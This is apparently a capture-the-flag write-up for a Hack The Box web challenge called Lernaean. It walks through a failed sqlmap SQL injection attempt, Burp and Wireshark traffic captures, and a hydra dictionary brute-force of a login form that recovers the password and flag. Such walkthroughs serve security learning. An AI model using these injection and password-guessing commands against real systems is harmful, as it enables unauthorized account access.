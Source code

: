 # WEB CHALLENGE: LERNAEAN

## Challenge Description
Your target is not very good with computers. Try and guess their password to
see if they may be hiding anything!

```
host: 88.198.233.174 port:33971
```

## SQLMAP
Let's try SQLMAP to see if SQL injection might work (turns out it doesn't)..

```
$ sqlmap -u http://88.198.233.174:33971/ --data="password=' or '1=1" --tamper=space2comment
```
## BURPSUITE
Let's see if we can examine the HTTP traffic between us and the server by using
burpsuite as our browser proxy to understand what is being passed around..

```
<REQUEST>
POST / HTTP/1.1
Host: 88.198.233.174:33971
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://88.198.233.174:33971/
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 13

password=test
</REQUEST>

<RESPONSE>
HTTP/1.1 200 OK
Date: Thu, 30 Nov 2017 18:32:43 GMT
Server: Apache/2.4.18 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 474
Connection: close
Content-Type: text/html; charset=UTF-8

Invalid password!
</RESPONSE>
```

Okay.. that tells us that `password` is the variable being passed to the server.

## WIRESHARK
Let's use wireshark just to confirm what is happening..

```
$ sudo wireshark -i eth0 -k
```

```
SOURCE: 10.0.2.15 DESTINATION: 88.198.233.174 PROTOCOL: HTTP INFO: POST / HTTP1.1 (application/x-www-form-urlencoded)

HTML Form URL Encoded: application/x-www-form-urlencoded
  Form item: "password" = "test"
    Key: password
    Value: test
```

## HYDRA
Okay.. now let's try using `hydra` to mimic these requests and brute force our
way through a dictionary attack..

```
$ hydra 88.198.233.174 -s 33971 http-form-post "/:user=^USER^&password=^PASS^:Invalid password!" -l user -P /usr/share/wordlists/rockyou.txt
```

```
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2017-11-30 17:13:03
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://88.198.233.174:33971//:user=^USER^&password=^PASS^:Invalid password!
[33971][http-post-form] host: 88.198.233.174   login: user   password: leonardo
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2017-11-30 17:13:41
```

Weeeeeeee! Looks like we found a valid password.

## LOOKING FOR THE FLAG
Trying the password we found on the form gives us a `Ooops! Too slow` response
on this page: `http://88.198.233.174:33971/noooooooope.html`..

.. but if we sue burpsuite to analyze the response from the server, we find
some hidden info..

```
<RESPONSE>
HTTP/1.1 200 OK
Date: Thu, 30 Nov 2017 22:17:03 GMT
Server: Apache/2.4.18 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 618
Connection: close
Content-Type: text/html; charset=UTF-8

<h1 style='color: #fff;'>HTB{l1k3_4_b0s5_s0n}</h1><script type="text/javascript">
                   window.location = "noooooooope.html"
              </script>
</RESPONSE>
```
